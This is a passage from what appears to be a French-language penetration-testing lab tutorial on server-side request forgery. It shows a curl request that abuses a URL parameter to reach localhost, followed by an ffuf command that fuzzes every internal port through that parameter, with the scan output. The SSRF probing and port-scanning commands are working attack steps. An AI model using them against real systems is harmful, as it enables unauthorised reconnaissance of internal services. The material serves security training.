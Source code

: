 #### Curl - Interagir avec la cible

  Curl - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 30
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:36:25 GMT

[Errno 111] Connection refused

```

1.  Utilisez ffuf avec la liste de mots et jetez les réponses qui ont la taille que nous avons précédemment identifiée.

#### Fuzzing de ports

  Fuzzing de ports

```
dsgsec@htb[/htb]$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 30
________________________________________________

80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
:: Progress: [65535/65535] :: Job [1/1] :: 577 req/sec :: Duration: [0:02:00] :: Errors: 0 ::

```
